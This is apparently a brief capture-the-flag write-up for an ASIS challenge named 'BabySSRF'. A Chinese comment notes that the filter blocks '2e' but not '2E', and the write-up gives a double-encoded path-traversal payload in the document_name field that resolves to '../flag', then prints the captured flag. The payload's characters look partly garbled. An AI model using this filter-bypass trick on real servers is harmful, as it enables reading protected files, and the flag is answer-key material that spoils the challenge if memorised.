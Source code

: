 # BabySSRF

他只擋`2e`，沒擋`2E`

`document_name=ﴥ2Eﴥ2E/flag` => `%252E%252E/flag` => `../flag`

`ASIS{68aaf2e4dd0e7ba28622aaed383bef4f}`

